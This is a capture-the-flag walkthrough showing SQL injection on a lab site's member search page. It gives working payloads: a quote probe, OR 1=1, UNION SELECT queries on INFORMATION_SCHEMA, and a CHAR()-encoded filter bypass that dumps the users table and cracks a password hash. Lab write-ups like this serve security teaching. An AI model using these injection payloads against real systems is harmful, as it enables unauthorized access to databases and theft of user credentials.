 

in page : http://machineURL/?page=member 

you will find an input field to search for a member by ID

you can retrieve the member details by intering a number in the input field

one of the ways to detect SQL injection is to submit a quote
```
 ' 
``` 
submiting this quote will return this error 
```
You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near '\'' at line 1 
```
with that output you can be cofident that this is a vulnerable payload
you can also try inputs like 
```
OR 1=1 to retrive the whole list of membert
notice using this or we get a user named flag with surname GetThe
```

next, we want to retrieve all the tables, we can do that using this query :

```
1 union SELECT null, TABLE_NAME FROM INFORMATION_SCHEMA.TABLES
```

note: in order for union to succseed we need two conditions :

- The individual queries must return the same number of columns.
- The data types in each column must be compatible between the individual queries.

to check for how many columns the original query ruturns, you can test is using ORDER BY clauses and incrementing the specified column index until an error occurs like this :
```
ORDER BY 1--
ORDER BY 2--
ORDER BY 3--
etc.
```

getting the output of all the talbles, notice a users table, thats our baby

we send another query to the database to get all the column names for the users table

```
1 union SELECT null , COLUMN_NAME FROM INFORMATION_SCHEMA.COLUMNS WHERE TABLE_NAME = CHAR(0x75, 0x73, 0x65, 0x72, 0x73)
```

notice that we have encoded the users as CHAR(0x75, 0x73, 0x65, 0x72, 0x73)

that is because whenever we use some kind of quoted input we get a database error, that is propably due the the website implementing some security michanism

with that we get all the users coulmn names so we can construct a query to get all the data all the users

and we do that using this command : 
```
1 union select null, concat_ws(CHAR(124),user_id, first_name, town, country, planet, Commentaire, countersign) from users
```
that gives us all the column values in the second column (surname) separated by | (char(124))

```
5|Flag|42|42|42|Decrypt this password -> then lower all the char. Sh256 on it and it's good !|5ff9d0165b4f92b14994e5c685cdce28
```

you decrypt 5ff9d0165b4f92b14994e5c685cdce28 and you get FortyTwo
lowering all the letters and sh256 on it and we get the flag


